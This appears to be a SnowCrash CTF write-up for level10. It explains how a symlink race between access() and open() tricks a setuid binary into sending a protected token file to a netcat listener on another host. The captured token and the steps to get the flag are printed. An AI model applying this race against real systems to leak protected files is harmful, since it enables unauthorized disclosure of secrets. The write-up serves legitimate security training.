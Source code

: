 ## Level10 Solution Guide

# Problem Overview

The level10 binary needs to send the contents of the token file to a remote host. However, the token file is protected:

runing the level10 prompt a permission error 
```bash 
level10@SnowCrash:~$ ./level10 token 10.14.2.5
You don't have access to token
```

we cannot directly read it (e.g., using cat).

based on the strace and ltrace output The level10 binary uses access() to check if the file is accessible and then open() to read its contents.

We can exploit the difference in behavior between access() and open() using a symlink swap technique " Symlink Race Condition".

## Solution Steps

1. Prepare the Environment

Start a Listener on the Host Machine
On the local machine (outside the VM), start a listener on port 6969 used by the proram to capture the file content sent by the level10 binary:
```bash
nc -lvp 6969
```

2. Exploit the Symlink Mechanism

we Create a Symlink to a Readable File , we created a /tmp/dummy with some content.
the /tmp/dummy to ensure the access() system call succeeds:
3. starting a loop to creater symlink race conditon

crate the file /tmp/swap.sh or download it from resources.

```bash 
sh -c /tmp/swap.sh
```
on the host machine after each respence we must relanch the listener so we can use the hang.sh script to automate the process.

```bash 
sh -c hang.sh
```
## Capture the flag

Run the level10 Binary multiple times until it success.
```bash
./level10 /tmp/symlink host_addres
```

On the local machine, the listener (Netcat) will capture the content of the code
```
Listening on 0.0.0.0 6969
Connection received on 10.14.59.24 51531
.*( )*.
woupa2yuojeeaaed06riuj63c

```
we use this code to get the flag as usual:

```bash 
>$ su flag10
passwd: code
>$ getflag 
```

